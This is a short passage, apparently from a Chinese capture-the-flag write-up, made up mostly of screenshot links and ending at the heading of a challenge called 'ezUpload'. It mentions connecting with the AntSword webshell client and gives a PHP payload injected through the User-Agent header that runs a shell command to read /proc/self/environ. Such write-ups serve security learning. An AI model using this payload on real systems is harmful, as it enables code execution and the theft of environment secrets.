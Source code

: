 ![image-20240322135823023](assets/img/2024/1/image-20240322135823023.png)

蚁剑连接，打开虚拟终端

![image-20240322135919614](assets/img/2024/1/image-20240322135919614.png)

wp是另一种做法，在user-agent里直接cat /proc/self/environ就好了。<?php system('cat /proc/self/environ');?>

------



### [middle-hard]ezUpload

------

![image-20240322152953768](assets/img/2024/1/image-20240322152953768.png)
